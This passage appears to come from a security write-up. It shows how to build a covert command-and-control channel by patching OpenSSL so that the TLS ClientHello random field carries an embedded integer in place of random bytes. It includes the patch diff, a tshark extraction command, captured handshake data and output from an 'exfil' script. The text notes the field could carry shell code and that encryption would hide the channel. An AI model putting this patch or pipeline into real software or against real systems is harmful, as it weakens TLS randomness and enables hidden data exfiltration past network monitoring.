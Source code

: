 ```
-    else
-        send_time = (s->mode & SSL_MODE_SEND_CLIENTHELLO_TIME) != 0;
-    if (send_time) {
-        unsigned long Time = (unsigned long)time(NULL);
-        unsigned char *p = result;
-        l2n(Time, p);
-        return RAND_bytes(p, len - 4);
-    } else
-        return RAND_bytes(result, len);
+
+    unsigned long Time = (unsigned long)time(NULL);
+    unsigned char *p = result;
+    l2n(Time, p);
+    RAND_bytes(p, len - 4 - 4); // Extra -4 so we can slap in the user_id 
+    memcpy(p, &user_id, 4);
+    return 1;
 }
 
 int ssl_generate_master_secret(SSL *s, unsigned char *pms, size_t pmslen,
```

Instead of generating a random sequence of 32 bits, we simply load an integer in from a text file. This is where we could embed shell code or other information, but for our use case we simply have embedded an integer in the first four bytes of the random sequence. Now we can run a request using https from our C2, and the TLS handshake will automatically be initiated. On the server side we use `tshark` to extract the client random from each handshake:

```
tshark -l -i ws-eth0  -f "tcp port 5000" -Y "ssl.handshake.type == 1" -o http.ssl.port:5000 -T fields -e ssl.handshake.random_bytes 2>/dev/null

# Real Clients
29:81:95:f6:85:5e:64:cf:b3:2e:1d:60:70:92:a0:fa:df:b2:44:58:0c:06:67:ca:b4:f4:0a:72
62:b4:60:ea:ce:ee:2f:eb:c0:b1:50:a5:81:56:12:b2:ec:13:87:10:49:f2:3d:09:72:79:06:85

# C2 Traffic
01:00:00:00:33:23:f4:41:0d:26:78:bf:c8:d7:45:bd:0f:49:6a:7d:6e:40:b0:88:00:00:00:00
02:00:00:00:a1:19:dd:16:4b:f3:97:71:fc:9c:52:c2:d8:d9:75:2f:98:8d:27:0d:00:00:00:00
03:00:00:00:68:9c:54:a6:94:d7:86:04:10:e0:69:3e:c8:5f:95:5e:8b:a5:d8:62:00:00:00:00
04:00:00:00:fa:84:48:03:00:70:90:a2:6a:dd:f1:35:ba:0d:f0:a4:3a:30:b1:a1:00:00:00:00
05:00:00:00:47:b7:17:f0:13:89:b8:44:b0:79:4b:00:aa:de:d6:ce:3a:34:43:7b:00:00:00:00
06:00:00:00:68:25:39:41:3d:cf:ec:51:5c:63:35:68:c0:1a:44:aa:f5:1b:1c:0d:00:00:00:00
07:00:00:00:d9:14:34:a4:d5:07:57:5b:a5:88:c4:98:47:1d:f7:fb:b2:5f:52:ae:00:00:00:00
```

As one can see, the real clients have legitimate random data. Our C2 sends our desired data in the first four octets of the sequence. We also have set the last 4 octets to be all zeros in order to denote which packets have encoded data, and which do not. This is clearly detectable at the network layer, but if we had encrypted the data, it would not be distinguishable from random data.

We have written some code to detect hidden messages. Since the bytes are little-endian in the 32 bit random field of the TLS handshake, we reverse the order of the bytes, and then interpret the value as an integer. In a more complicated system where this data was encrypted, we would simply decrypt the data. The last two bytes could be sacrificed for a checksum, which would be a perfect way for us to tell if there was an encoded message or not. However, for the sake of simplicity, we have just designated the last 4 bytes of an encoded message to be all zeros.
```
root@ws:/usr/local/server# ./exfil.sh
+ tshark -l -i ws-eth0 -f 'tcp port 5000' -Y 'ssl.handshake.type == 1' -o http.ssl.port:5000 -T fields -e ssl.handshake.random_bytes
+ python3 exfil.py
EXFIL REQUEST FOR 1
EXFIL REQUEST FOR 2
EXFIL REQUEST FOR 3
EXFIL REQUEST FOR 4
```